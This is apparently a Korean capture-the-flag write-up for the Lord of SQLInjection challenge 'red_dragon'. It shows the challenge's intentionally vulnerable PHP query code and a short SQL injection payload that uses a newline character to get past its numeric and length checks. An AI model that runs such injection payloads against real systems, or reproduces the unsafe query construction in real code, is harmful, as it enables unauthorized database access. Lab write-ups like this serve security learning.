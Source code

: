 ```yaml
---
title : "LOS Lv.26 red_dragon (풀이 봄)"
categories : [Wargame, rubiya]
tags : [풀이 봄]
---
```



## red_dragon
<hr style="border-top: 1px solid;"><br>

```php
query : select id from prob_red_dragon where id='' and no=1

<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET['id']}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = "select no from prob_red_dragon where id='admin'"; // if you think challenge got wrong, look column name again.
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['no'] === $_GET['no']) solve("red_dragon");
  highlight_file(__FILE__);
?>
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

```?id='||no>&no=%0a1``` 이런식으로 **개행문자**를 이용해서 해결 가능..

<br><br>
<hr style="border: 2px solid;">
<br><br>

